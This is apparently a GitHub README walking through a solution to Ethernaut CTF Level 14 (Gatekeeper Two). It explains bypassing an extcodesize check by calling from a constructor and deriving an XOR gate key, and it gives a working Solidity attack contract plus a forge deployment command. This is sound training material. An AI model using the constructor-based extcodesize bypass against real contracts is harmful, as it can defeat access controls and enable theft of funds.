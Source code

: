 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/14-gate2.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 14 - Gate Keeper Two</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 14 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-14-gate-keeper-two)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [modifier one](#modifier-one)
  - [modifier two](#modifier-two)
  - [modifier three](#modifier-three)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/14-gate2-requirements.webp" width="800px"/>

## The hack

Another gatekeeper here with three modifiers to pass. So let's see how to pass them.

### modifier one

```javascript
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

Lucky us, this is the same modifier as the previous level, so we can use a contract to call the function. Or can we?

### modifier two

```javascript
modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
}
```

The `extcodesize` opcode returns the size of the code at the given address, `caller()` here. If the address is a contract, it will return the size of the contract's code. If the address is an EOA (Externally Owned Account), it will return 0.

So, it seems that we can't use an intermediary contract after all. However, there is no way to pass the first gate otherwise. Is there another solution then?

Well yes, there is. If we execute our call from a `constructor`, the `extcodesize` will return 0 since the contract hasn't been deployed yet technically. So this is how we can pass the second gate.

### modifier three

```javascript
modifier gateThree(bytes8 _gateKey) {
     require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

This one looks pretty ugly at first glance, but let's take a better look at the XOR operator first. The XOR operator returns true if the two operands are different. So, if `A ^ B == C`, then `A ^ C == B` and `B ^ C == A`. So we could rewrite the modifier like this (which is much nicer, let's be honest):

```javascript
modifier gateThree(bytes8 B) {
    require(uint64(A) ^ uint64(B) == uint64(C));
    _;
}
```

In other words, no need to think too much here, the `_gateKey` will be simply equal to:

```java
bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
```

## Solution

We can now write our contract to pass the three gates:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract GateSkipperTwo {
    constructor(address _gateKeeperTwo) {
        attack(_gateKeeperTwo);
    }

    function attack(address gateKeeperTwo) private {
        bytes8 _gateKey = bytes8(
            uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^
                type(uint64).max
        );

        (bool success, ) = gateKeeperTwo.call(
            abi.encodeWithSignature("enter(bytes8)", _gateKey)
        );
        require(success, "Attack failed");
    }
}
```

Then, run the script with the following command:

```bash
forge script script/14_GateKeeperTwo.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- The `extcodesize` opcode returns the size of the code at the given address.
- The contract's size is 0 in the constructor.
- The XOR operator `^` returns true if the two operands are different.

## Reference

- [Distinguishing EOA from Smart Contracts Securely](https://blog.solidityscan.com/distinguishing-eoa-and-smart-contracts-securely-911dc42fdf13)

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
